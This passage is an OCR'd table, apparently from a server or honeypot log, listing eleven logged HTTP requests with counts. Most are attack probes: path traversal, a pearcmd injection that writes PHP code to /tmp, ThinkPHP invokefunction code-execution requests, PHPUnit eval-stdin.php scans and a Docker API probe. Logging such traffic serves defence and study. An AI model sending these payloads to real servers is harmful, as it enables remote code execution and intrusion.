 |  56 |                     2 | GET /libs/js/iframe.js HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
|  57 |                     2 | GET /containers/json HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
|  58 |                     2 | GET /index.php?lang=../../../../../../../../tmp/index1 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                |
|  59 |                     2 | GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?echo(md5(\x22hi\x22));?>+/tmp/index1.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                    |
|  60 |                     2 | GET /public/index.php?s=/index/\x5Cthink\x5Capp/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=Hello HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                              |
|  61 |                     2 | GET /index.php?s=/index/\x5Cthink\x5Capp/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=Hello HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                     |
|  62 |                     2 | GET /app/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                           |
|  63 |                     2 | GET /apps/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                          |
|  64 |                     2 | GET /public/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                        |
|  65 |                     2 | GET /panel/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                         |
|  66 |                     2 | GET /workspace/drupal/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                              |